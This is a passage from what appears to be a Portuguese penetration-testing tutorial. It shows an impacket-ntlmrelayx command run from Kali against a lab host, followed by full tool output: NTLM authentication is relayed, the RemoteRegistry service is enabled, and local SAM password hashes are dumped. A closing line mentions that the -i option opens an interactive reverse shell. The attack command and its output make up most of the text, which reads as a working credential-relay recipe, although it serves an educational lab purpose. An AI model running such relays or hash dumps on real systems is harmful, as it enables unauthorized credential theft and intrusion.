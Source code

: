 ```

┌──(kali㉿insecure)-[~]
└─$ impacket-ntlmrelayx -t 192.168.0.102 -smb2support
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Protocol Client LDAPS loaded..
[*] Protocol Client LDAP loaded..
[*] Protocol Client MSSQL loaded..
[*] Protocol Client DCSYNC loaded..
[*] Protocol Client RPC loaded..
[*] Protocol Client HTTP loaded..
[*] Protocol Client HTTPS loaded..
[*] Protocol Client SMB loaded..
[*] Protocol Client IMAPS loaded..
[*] Protocol Client IMAP loaded..
[*] Protocol Client SMTP loaded..
[*] Running in relay mode to single host
[*] Setting up SMB Server
[*] Setting up HTTP Server on port 80
[*] Setting up WCF Server
[*] Setting up RAW Server on port 6666

[*] Servers started, waiting for connections
[*] SMBD-Thread-5 (process_request_thread): Received connection from 192.168.0.101, attacking target smb://192.168.0.102
[*] Authenticating against smb://192.168.0.102 as INSECURE/JCID SUCCEED
[*] Service RemoteRegistry is in stopped state
[*] Service RemoteRegistry is disabled, enabling it
[*] Starting service RemoteRegistry
[*] SMBD-Thread-7 (process_request_thread): Connection from 192.168.0.101 controlled, but there are no more targets left!
[*] Target system bootKey: 0xdef8c5bdb9e10578190e9f3751969b65
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:9ebbbaa98c9ab926aae0a26b1a7945ca:::
test:1003:aad3b435b51404eeaad3b435b51404ee:64f12cddaa88057e06a81b54e73b949b:::
[*] Done dumping SAM hashes for host: 192.168.0.102
[*] Stopping service RemoteRegistry
[*] Restoring the disabled state for service RemoteRegistry
[*] SMBD-Thread-9 (process_request_thread): Connection from 192.168.0.101 controlled, but there are no more targets left!


```

### _Shell_ Interactiva

Com a opção -i _(interactive)_ a ferramenta cria uma _reverse shell_ que poderemos aceder atraves da nossa maquina.
